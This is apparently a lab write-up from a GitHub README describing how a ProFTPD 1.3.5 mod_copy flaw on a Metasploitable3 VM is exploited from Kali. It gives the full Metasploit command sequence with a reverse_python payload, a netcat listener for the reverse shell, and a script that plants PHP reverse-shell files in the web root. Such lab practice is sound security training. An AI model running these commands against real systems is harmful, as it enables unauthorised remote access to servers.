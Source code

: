 
## 🔍 Step 1: Finding the IP Address of Metasploitable3

We used the `ifconfig` command inside the Metasploitable3 VM to find its IP address on the NAT network.

- **Discovered IP Address:** `10.0.2.7`

![Metasploitable3 IP Address](Screenshots/A-FindIP-Metasplot.png)


### 🔁 Step 2: Verifying Network Connectivity

Before launching any attacks, we verified that the attacker machine (Kali Linux) can reach the victim machine (Metasploitable3) using the `ping` command.

- **Target IP:** `10.0.2.7`
- **Result:** Successful ping with 0% packet loss



![Ping Test from Kali to Metasploitable](Screenshots/B-Connect.png)
### 🔎 Step 3: Scanning for Open Ports and Services

To discover vulnerable services running on the victim machine, we performed a full version scan using `nmap`:
![Metasploitable3 IP Address](Screenshots/C-FindPorts.png)


 ## 📍 Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

In this step, we exploit the vulnerable **ProFTPD 1.3.5** service running on Metasploitable3 using the `unix/ftp/proftpd_modcopy_exec` module in Metasploit. The goal is to get a **reverse shell** back to our Kali machine.

---
![Metasploitable3 IP Address](Screenshots/D-msfconsole.png)
### ✅ Summary of the Process

- **Target (Metasploitable3) IP:** `10.0.2.7`  
- **Attacker (Kali) IP:** `10.0.2.5`  
- **Vulnerable Service:** ProFTPD 1.3.5  
- **Exploit Module:** `exploit/unix/ftp/proftpd_modcopy_exec`  
- **Payload Used:** `cmd/unix/reverse_python`  
- **Writable Web Directory:** `/var/www/html`

---

### 🧰 Commands Used

```bash
# Start Metasploit
msfconsole

# Search and load the exploit module
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec

# Set RHOST and LHOST
set RHOST 10.0.2.7
set LHOST 10.0.2.5

# View available payloads and select one
show payloads
set payload cmd/unix/reverse_python

# Set the writable directory on the target
set SITEPATH /var/www/html

# (Optional) Prevent cleanup and handler issues
set AllowNoCleanup true
set DisablePayloadHandler true

# Run the exploit

exploit
```
## ✅ Step 5: Establishing a Reverse Shell to the Victim (End of Phase 1.1)






After successfully uploading the malicious PHP payload using the `mod_copy` exploit module in Metasploit, we triggered the payload by accessing it through the victim’s web server. This caused the victim (Metasploitable3) to connect back to our Kali machine, confirming a successful reverse shell.

![Metasploitable3 IP Address](Screenshots/E-VictimShell.png)
### 🔊 Listener Setup (Attacker Side)



On Kali, we opened a Netcat listener on port `4444`:

```bash
nc -lvnp 4444
## 🔹 Task 1.2 – Running the Custom Exploit Script

After manually exploiting the FTP service in Task 1.1 using Metasploit, we now move to automating the attack using a custom Python script.

### ▶️ Step: Executing the Custom Exploit Script

We ran the following command from the `/Downloads` directory:

```bash
python3 Script.py
```
![Metasploitable3 IP Address](Screenshots/F-RunningScript.png)
 What the Script Does
The script automates the exploitation of the vulnerable ProFTPD 1.3.5 service using the mod_copy module. Here's what it performs:

Generates a PHP reverse shell payload.

Exploits the FTP server to copy this payload into the Apache web root directory (/var/www/html/).

Provides a direct URL to the uploaded exploit:


### 📸 Custom Payload Execution via mod_copy (Script Proof )

After uploading the `exploit.php` file using the custom script, we leveraged the `mod_copy` vulnerability to manually **execute a command on the victim machine** by setting the `CMD` option in Metasploit.

We ran the following command to list the contents of the web root directory:

```bash
set CMD ls -l /var/www/html
run
```
![Metasploitable3 IP Address](Screenshots/G-uploadingFile.png)

#### Conclusion

-  **Reverse shell connection was successful.**
-  **Custom script worked as intended.**
-  **Payloads are visible in the victim’s `/var/www/html/` directory.**
-  **Task 1.2 is completed with solid proof.**

![Metasploitable3 IP Address](Screenshots/H-phpFilesUploaded.png)

---

